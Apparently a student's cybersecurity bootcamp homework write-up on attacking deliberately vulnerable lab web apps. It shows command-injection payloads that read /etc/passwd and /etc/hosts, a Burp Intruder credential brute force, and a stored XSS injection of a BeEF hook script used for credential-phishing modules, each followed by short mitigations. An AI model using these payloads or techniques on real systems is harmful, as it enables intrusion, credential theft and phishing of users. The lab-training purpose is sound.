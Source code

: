 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework

#### Web Application 1: *Your Wish is My Command Injection*

Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

`http://192.168.13.25`

Log in with the following credentials:

- User name: `admin`
- Password: `password`

Select the `Command Injection` option from the left menus.

Using the dot-dot-slash `../` method five times to design two payloads that will display the contents of the following files:

- `/etc/passwd`

	`8.8.8.8 && cat ../../../../../etc/passwd`
![cat ../../../../../etc/passwd](images/passwd.png "cat ../../../../../etc/passwd")

- `/etc/hosts`

	`8.8.8.8 && cat ../../../../../etc/hosts`
![cat ../../../../../etc/hosts](images/hosts.png "cat ../../../../../etc/hosts")

**Recommended mitigation strategies:**

- Server-side validation so unintended files aren't shown to the general public
- Segregation of confidential files from the web server and accessible directories.
- Permissions to restrict web server account accessibility.

#### Web Application 2: *A Brute Force to Be Reckoned With*

Run this command `sudo burpsuite` in Vagrant command line.

Open Firefox which was already installed `FoxyProxy` add-on extension in class activities.
![](images/bwapp.png)

In Burpsuite, I got following intercept data:

```
Request to http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

![Proxy Intercept results](images/intercept.png)

- Send above Proxy intercept results to Intruder. Click `Intruder` tab;
- Verify `Target`;

![Intruder Target](images/intruder-target.png)

- Setup `Positions`, select attack type `Cluster bomb`; 
- Configure and add `login` and `password` as positions.

![Intruder Positions](images/intruder-positions.png) 

- Click `Payloads` tab, choose `Payload` type as `Simple list`;
- Add login user ID from `List of Administrators` file into Payload set 1;
- Add password from `Breached list of Passwords` file into Payload set 2;

![Intruder Payloads](images/intruder-payloads.png)

- Click `Start attack`

After analysis of intruder attack results, the login username/password combination of "**`tonystark`**" and "**`I am Iron Man`**" did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![Intruder Results](images/intruder-results.png)

Recommended mitigation strategies:

- Mitigations can include requiring complex usernames and passwords, using multi-factored authentication, and enabling a lockout after a certain amount of failed login attempts.

#### Web Application 3: *Where's the BeEF?*

**Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command:
`~/Documents/web-vulns$ docker-compose up`

Go to this website:
`http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again.
Username: `admin`
Password: `password`

**Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: `sudo beef`

When prompted for a password, enter `cybersecurity`.

To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link.

When the BeEF webpage opens, login with the following credentials:

Username: `beef`
Password: `feeb`

**Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

**Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](images/maxlength-50.png)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.

![](images/maxlength-100.png)

**Step 5, A couple BeEF exploits**

Social Engineering >> Pretty Theft

![Pretty Theft - Facebook](images/pretty-theft.png)

![Pretty Theft - LinkedIn](images/pretty-theft-2.png)

Social Engineering >> Fake Notification Bar

![Fake Notification Bar](images/fake-notification-bar.png)

Host >> Get Geolocation (Third Party)

![Get Geolocation (Third Party)](images/get-geolocation.png)

#### Recommended mitigation strategies

- Input validation is a common method used to mitigate cross-site scripting.
